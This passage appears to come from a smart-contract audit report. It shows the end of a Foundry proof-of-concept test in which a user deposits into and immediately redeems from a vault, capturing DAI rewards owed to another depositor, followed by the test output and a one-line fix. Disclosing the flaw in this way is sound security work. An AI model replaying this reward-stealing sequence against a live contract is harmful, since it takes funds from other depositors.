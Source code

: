 ```solidity
        s_dai.approve(address(tokenRewards), type(uint256).max);
        tokenRewards.depositFromPairedLpToken(1000e18);

        // Bob deposits his spABC and immediately redeems it
        vm.startPrank(bob);
        s_stakingPool.approve(address(s_asp), type(uint256).max);
        s_asp.deposit(1e18, bob);
        s_asp.redeem(s_asp.maxRedeem(bob), bob, bob);
        vm.stopPrank();

        // Alice redeems her spABC  
        vm.startPrank(alice);
        s_asp.redeem(s_asp.maxRedeem(alice), alice, alice);
        vm.stopPrank();

        // Log the balances of the participants
        console.log("Alice's spTkn Balance:", s_stakingPool.balanceOf(alice));
        console.log("Bob's spTkn balance:", s_stakingPool.balanceOf(bob));
        console.log("Alice's dai balance:", s_dai.balanceOf(alice));
        console.log("Bob's dai balance:", s_dai.balanceOf(bob));

        assertEq(s_stakingPool.balanceOf(alice), s_stakingPool.balanceOf(bob));
        assertGt(s_dai.balanceOf(bob), s_dai.balanceOf(alice));
    }
}
```

You can run the test case by executing `forge test --match-test test_stealRewards --fork-url {{RPC_URL}} -vv`.

Here's the output of the test case:

```bash
[PASS] test_stealRewards() (gas: 2200480)
Logs:
  Alice's spTkn Balance: 34484714684933262642
  Bob's spTkn balance: 34484714684933262642
  Alice's dai balance: 0
  Bob's dai balance: 451249999999999774375

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 23.65s (4.96s CPU time)
```

### Mitigation

To fix the issue, we need to claim rewards from `TokenRewards` contract in `_processRewardsToPodLp` function.

```diff
    function _processRewardsToPodLp(uint256 _amountLpOutMin, uint256 _deadline) internal returns (uint256 _lpAmtOut) {
        if (!yieldConvEnabled) {
            return _lpAmtOut;
        }
+       ITokenRewards(IStakingPoolToken(_asset()).POOL_REWARDS()).claimRewards(address(this));
        address[] memory _tokens = ITokenRewards(IStakingPoolToken(_asset()).POOL_REWARDS()).getAllRewardsTokens();
        uint256 _len = _tokens.length + 1;
        for (uint256 _i; _i < _len; _i++) {
            address _token = _i == _tokens.length ? pod.lpRewardsToken() : _tokens[_i];
            uint256 _bal =
                IERC20(_token).balanceOf(address(this)) - (_token == pod.PAIRED_LP_TOKEN() ? _protocolFees : 0);
            if (_bal == 0) {
                continue;
            }
```